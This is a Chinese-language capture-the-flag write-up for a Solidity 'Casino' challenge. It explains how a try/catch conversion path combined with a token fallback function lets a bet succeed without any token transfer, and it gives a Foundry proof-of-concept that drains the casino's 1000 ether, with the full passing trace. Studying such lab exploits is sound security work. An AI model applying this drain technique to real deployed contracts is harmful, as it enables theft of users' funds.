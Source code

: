## Casino

主要是两个合约 `Casino` 和 `WrappedNative`，`WNative` 类似 WETH，是赌场下注和最终赚取的代币。

但是，下注之前需要把 `WNative` 代币转换成赌场专用的筹码 `cToken`。但这步不是必须的，如果你使用 `WNative` 直接下注，合约会贴心的把 `WNative` 转换成筹码 `cToken` 再下注。

赌场合约 `Casino` 起初有 1000 ether 的 `WNative`，而你只有 1 wei 的 `WNative`，你需要清空赌场。

下注通过 `play` 函数：
``` solidity
    function play(address token, uint256 amount) public checkPlay {
        _bet(token, amount);
        CasinoToken cToken = isCToken(token) ? CasinoToken(token) : CasinoToken(_tokenMap[token]);
        // play

        cToken.get(msg.sender, amount * slot());
    }

    function _bet(address token, uint256 amount) internal {
        require(isAllowed(token), "Token not allowed");
        CasinoToken cToken = CasinoToken(token);
        try cToken.bet(msg.sender, amount) {}
        catch {
            cToken = CasinoToken(_tokenMap[token]);
            deposit(token, amount);
            cToken.bet(msg.sender, amount);
        }
    }
```

其中 `_bet` 函数就是用来做转换用的，设想的是，如果你使用 `WNative` 代币进行下注，那么调用该代币的 `bet` 方法，会抛出错误，于是再转换成 `cToken` 再调用 `cToken` 的 `bet` 方法下注。

看起来似乎没什么问题，问题在于 `WNative` 代币有 `fallback` 方法。

``` solidity
contract WrappedNative is ERC20("Wrapped Native Token", "WNative"), Ownable {
    using Address for address payable;

    fallback() external payable {
        deposit();
    }

    function mint(address receiver, uint256 amount) external onlyOwner {
        _mint(receiver, amount);
    }

    function deposit() public payable {
        _mint(msg.sender, msg.value);
    }

    function withdraw(uint256 amount) external {
        _burn(msg.sender, amount);
        payable(msg.sender).sendValue(amount);
    }
}
```

那么在使用 `WNative` 代币进行下注的时候，并不会抛出错误，而是调用了 `WNative` 代币的 `deposit` 方法，把 0 个 `WNative` 代币 `mint` 给了我们。此后，继续执行赌场游戏，如果获奖了，把 `cToken` 转出。整个过程，没有真正把筹码和代币转入到赌场合约中。

## 题解
1. 在每一块中不断获取 `casino.slot()`，当 `casino.slot()` 大于 0 时下注。
2. 使用 `WNative` 代币进行大金额下注。
3. 会获取 1000 ether 的 `cToken`，我们把它换成 `WNative` 代币。

POC:
``` solidity
    function testExploit() public {
        uint256 blockNum = block.number;
        vm.startPrank(you);

        // simulate playing the slot in upcoming blocks
        do {
            vm.roll(blockNum++);
        } while (casino.slot() == 0);

        // play with wNative
        casino.play(wNative, uint256(1e21) / 3 + 1);
        casino.withdraw(wNative, 1_000e18);

        // solve
        base.solve();
        assertTrue(base.isSolved());
        vm.stopPrank();
    }
```

```
[PASS] testExploit() (gas: 1040565152)
Traces:
  [1040569952] CasinoTest::testExploit()
    ├─ [0] VM::startPrank(you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815])
    │   └─ ← [Return] 
    ├─ [0] VM::roll(1)
    │   └─ ← [Return] 
    ├─ [651] Casino::slot() [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::roll(2)
    │   └─ ← [Return] 
    ├─ [651] Casino::slot() [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::roll(3)
    │   └─ ← [Return] 
    ├─ [651] Casino::slot() [staticcall]
    │   └─ ← [Return] 0
    ├─ [0] VM::roll(4)
    │   └─ ← [Return] 
    ├─ [627] Casino::slot() [staticcall]
    │   └─ ← [Return] 3
    ├─ [1040464017] Casino::play(WrappedNative: [0x104fBc016F4bb334D775a19E8A6510109AC63E00], 333333333333333333334 [3.333e20])
    │   ├─ [6717] WrappedNative::bet(you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815], 333333333333333333334 [3.333e20])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: Casino: [0x037eDa3aDB1198021A9b2e88C22B464fD38db3f3], value: 0)
    │   │   └─ ← [Stop] 
    │   ├─ [461] WrappedNative::underlying() [staticcall]
    │   │   └─ ← [StateChangeDuringStaticCall] EvmError: StateChangeDuringStaticCall
    │   ├─ [48813] CasinoToken::get(you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815], 1000000000000000000002 [1e21])
    │   │   ├─ emit Transfer(from: 0x0000000000000000000000000000000000000000, to: you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815], value: 1000000000000000000002 [1e21])
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [54954] Casino::withdraw(WrappedNative: [0x104fBc016F4bb334D775a19E8A6510109AC63E00], 1000000000000000000000 [1e21])
    │   ├─ [3190] CasinoToken::withdrawTo(you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815], 1000000000000000000000 [1e21])
    │   │   ├─ emit Transfer(from: you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815], to: 0x0000000000000000000000000000000000000000, value: 1000000000000000000000 [1e21])
    │   │   └─ ← [Return] true
    │   ├─ [27794] WrappedNative::transfer(you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815], 1000000000000000000000 [1e21])
    │   │   ├─ emit Transfer(from: Casino: [0x037eDa3aDB1198021A9b2e88C22B464fD38db3f3], to: you: [0xdD8e94483FCf48AE29C652d9db4023404E5Bf815], value: 1000000000000000000000 [1e21])
    │   │   └─ ← [Return] true
    │   └─ ← [Stop] 
    ├─ [25369] CasinoBase::solve()
    │   ├─ [563] WrappedNative::balanceOf(Casino: [0x037eDa3aDB1198021A9b2e88C22B464fD38db3f3]) [staticcall]
    │   │   └─ ← [Return] 0
    │   └─ ← [Stop] 
    ├─ [309] CasinoBase::isSolved() [staticcall]
    │   └─ ← [Return] true
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return] 
    └─ ← [Stop] 
```



